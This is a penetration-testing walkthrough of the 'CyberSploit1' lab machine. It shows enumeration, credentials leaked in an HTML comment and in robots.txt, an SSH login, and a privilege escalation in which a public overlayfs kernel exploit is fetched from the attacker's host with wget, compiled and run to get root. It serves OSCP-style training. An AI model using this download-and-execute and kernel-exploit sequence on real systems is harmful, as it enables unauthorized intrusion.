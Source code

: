 ```yaml
---
title : "CyberSploit1- Walkthrough"
date : 21-10-2024 01:30:00
categories : [Writeups,Offsec-Play]
tags : [Offsec-Play, OSCP]
---
```


## Summary

This machine is exploited by disclosure of a user name and a very obscure password. It is escalated via a local Linux kernel exploit.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.216
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 11:36 EDT
Nmap scan report for 192.168.120.216
Host is up (0.036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Username Disclosure

If we look at the source code of the default web page on port 80 of our target we will see the following commented-out line:

```bash
kali@kali:~$ curl http://192.168.120.216
<!doctype html>
<html lang="en">
...
<!-------------username:itsskv--------------------->
</body>
...
```

This leaks the username `itsskv`.

### Password Disclosure

Running `dirb` with the default wordlist and non-recursive option shows that **robots.txt** is present in the web root:

```bash
kali@kali:~$ dirb http://192.168.120.216 -r
...
---- Scanning URL: http://192.168.120.216/ ----
+ http://192.168.120.216/cgi-bin/ (CODE:403|SIZE:291)
...
+ http://192.168.120.216/robots.txt (CODE:200|SIZE:79)
...
```

Viewing the file, we encounter what looks to be a base64-encoded string:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt
Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=
kali@kali:~$
```

We can decode it, revealing the following:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53  100    53    0     0    736      0 --:--:-- --:--:-- --:--:--   736
cybersploit{youtube.com/c/cybersploit}
...
```

## Exploitation

### SSH

Although the decoded string (`cybersploit{youtube.com/c/cybersploit}`) seems quite odd, we can try it as the password to the username we have discovered:

```bash
kali@kali:~$ ssh itsskv@192.168.120.216
...
itsskv@192.168.120.216's password: 
...
itsskv@cybersploit-CTF:~$ id
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
itsskv@cybersploit-CTF:~$
```

And we successfully authenticate as the user `itsskv`.

## Escalation

### Local Enumeration

One of the first things to enumerate is the kernel version of the target:

```bash
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$
```

Researching this kernel version, we find that this system is vulnerable to `overlayfs` local privilege escalation exploit (https://www.exploit-db.com/exploits/37292):

```bash
kali@kali:~$ searchsploit "3.13.0"
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37293.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Linux Kernel Exploit

We will host the source code file on our attacking machine using a simple Python HTTP server and download it to the target machine.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.216 - - [03/Sep/2020 11:57:51] "GET /37292.c HTTP/1.1" 200 -
...
```

Downloading the exploit to our target machine:

```bash
itsskv@cybersploit-CTF:~$ cd /tmp/
itsskv@cybersploit-CTF:/tmp$ wget http://192.168.118.3/37292.c
--2020-09-03 21:27:52--  http://192.168.118.3/37292.c
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3861 (3.8K) [text/plain]
Saving to: `37292.c'

100%[=======================================================================>] 3,861       --.-K/s   in 0s      

2020-09-03 21:27:52 (208 MB/s) - `37292.c' saved [3861/3861]

itsskv@cybersploit-CTF:/tmp$
```

Next, we can compile the source code:

```bash
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o 37292
itsskv@cybersploit-CTF:/tmp$
```

Finally, we are able to exploit this kernel version and obtain an elevated shell:

```bash
itsskv@cybersploit-CTF:/tmp$ whoami
itsskv
itsskv@cybersploit-CTF:/tmp$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# python -c 'import pty; pty.spawn("/bin/bash")'
root@cybersploit-CTF:/tmp# 
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp#
```